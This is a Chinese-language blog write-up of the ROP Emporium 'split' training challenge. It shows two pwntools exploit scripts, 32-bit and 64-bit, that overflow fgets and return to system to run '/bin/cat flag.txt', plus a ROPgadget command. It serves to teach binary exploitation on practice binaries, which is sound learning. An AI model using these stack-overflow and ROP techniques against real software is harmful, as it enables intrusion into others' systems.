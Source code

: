 ```yaml
---
title: ROP Emporium の split
date: 2020-05-27 13:30:29
categories:
- WriteUPs
- ROP Emprium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;[ROP Emporium](https://ropemporium.com)训练1：split的解析。

<!-- more -->

## split32

### Step 1

&emsp;&emsp;程序正常运行截图：

![](/img/split/split1.png)

&emsp;&emsp;checksec：32位程序，只开启了DEP保护

![](/img/split/split2.png)

### Step 2

&emsp;&emsp;把程序丢到hopper中看下，发现在pwnme函数中fgets函数存在溢出漏洞：

![](/img/split/split3.png)

&emsp;&emsp;同时程序中存在system函数，可以执行系统命令：

![](/img/split/split4.png)

&emsp;&emsp;再找下程序中有没有’/bin/sh’字符串：

![](/img/split/split5.png)

&emsp;&emsp;可惜，没有找到。不过在hopper中看到一个有趣的字符串“/bin/ls”：

![](/img/split/split6.png)

&emsp;&emsp;有这个也无法看到flag，那么再去找一下“flag.txt”字符串：

![](/img/split/split7.png)

&emsp;&emsp;Surprise！！！居然有“/bin/cat flag.txt”字符串。到此思路就清晰了，fgets函数溢出覆盖返回地址跳转到system执行“/bin/cat flag.txt”的命令即可。

### Step 3

&emsp;&emsp;话不多说，直接上EXP：

```Python
* from pwn import *
* sh = process('./split32')
* elf = ELF('./split32')
* 
* system_addr = elf.symbols['system']
* shell_addr = elf.search('/bin/cat').next()
* 
* payload = 'a' * (0x28 + 0x4) + p32(system_addr) + p32(0xdeadbeef) + p32(shell_addr)
* 
* sh.recvuntil('>')
* sh.send(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;代码运行结果：

![](/img/split/split8.png)

## split

### Step 1

&emsp;&emsp;程序运行截图：

![](/img/split/split9.png)

&emsp;&emsp;checksec还是一样的仅开启DEP保护，只是程序变成了64位：

![](/img/split/split10.png)

### Step 2

&emsp;&emsp;将程序丢到hopper中发现解题的逻辑和split32一模一样，fgets函数溢出覆盖返回地址到system函数，执行“/bin/cat flag.txt”命令.

&emsp;&emsp;与32位程序不同的有两点：

* 一是偏移量不同，这点简单明了

* 二是32位和64位程序传参方式的不同，具体可以参考[XMAN level2_x64 の Write-Up](https://coldwave96.github.io/2020/05/11/XMAN-level2-x64/)

### Step 3

&emsp;&emsp;比较简单，还是直接给出EXP：

```Python
* from pwn import *
* 
* sh = process('./split')
* elf = ELF('./split')
* 
* system_addr = elf.symbols['system']
* rop_addr = 0x0000000000400883
* shell_addr = elf.search('/bin/cat').next()
* 
* payload = 'a' * (0x20 + 0x8) + p64(rop_addr) + p64(shell_addr) + p64(system_addr)
* 
* sh.recvuntil('>')
* sh.send(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;其中rop_addr是通过`ROPgadget --binary ./split --only 'pop|ret’`命令找到的：

![](/img/split/split11.png)

&emsp;&emsp;EXP脚本运行结果图：

![](/img/split/split12.png)